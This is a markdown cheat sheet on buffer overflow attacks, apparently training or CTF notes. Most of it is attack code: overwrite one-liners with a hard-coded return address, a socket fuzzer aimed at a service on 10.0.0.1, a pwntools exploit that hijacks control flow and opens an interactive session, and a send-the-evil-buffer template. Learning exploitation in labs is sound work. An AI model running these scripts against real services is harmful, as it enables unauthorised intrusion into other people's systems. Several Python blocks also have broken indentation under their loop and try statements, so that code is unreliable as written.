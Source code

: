 ```yaml
---
title: Buffer Overflow Attack
desc: 
tags: [Buffer Overflow, Python, Reverse Engineering]
alts: [Reverse-Engineering]
render_with_liquid: false
---
```


## 1. Python Payload

```python
python3 -c 'print("A" * 32 + "B" * 8 + "C" * 8)'
python3 -c 'print("A" * 32 + "BBBBBBBB" + "\x86\x06\x40\x00\x00\x00\x00\x00")'
# Copy the output string

# Paste the specific field when executing
./example.so
```

<br />

## 2. Check to Crash

1. Creating a Fuzzer using Python

    *fuzzer.py*

    ```python
    #!/usr/bin/env python3

    import socket, time, sys

    ip = "10.0.0.1"

    port = 1337
    timeout = 5
    prefix = "OVERFLOW1 "

    string = prefix + "A" * 100

    while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
        s.send(bytes(string, "latin-1"))
        s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
    ```

2. Executing Script

    ```sh
    python3 fuzzer.py
    ```

<br />

## 3. Scanf in Object File

Using **[Pwntools](https://github.com/Gallopsled/pwntools)** with Python.

```python
from pwn import *

# target ip address
host = "10.0.0.1"
# target port
port = 5700

context(terminal = ['tmux', 'new-window'])
# set target executable
binary = context.binary = ELF("./example.so")
context(os = "linux", arch = "amd64")

connect = remote(host, port)
log.info("[+] Starting bufer overflow")
# set the executable output
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")

payload = b'A' * 40
payload += p64(0x00400686)
log.info("[+] Sending Payload to the remote server")
# Send payload
connect.sendline(payload)
connect.interactive()
```

<br />

## 4. Socket

1. **Generate a cyclic pattern**

    ```sh
    # ex. 2000 bytes
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
    ```

    Copy the output string.

2. **Create the Exploit**

    Paste the copied strings (the above cyclic pattern) to the “payload” variable.

    ```python
    import socket

    ip = "10.0.0.1"
    port = 1337

    prefix = "OVERFLOW1 "
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = "<PASTE_A_CYCLIC_PATTERN>"
    postfix = ""

    buffer = prefix + overflow + retn + padding + payload + postfix

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
    except:
    print("Could not connect.")
    ```
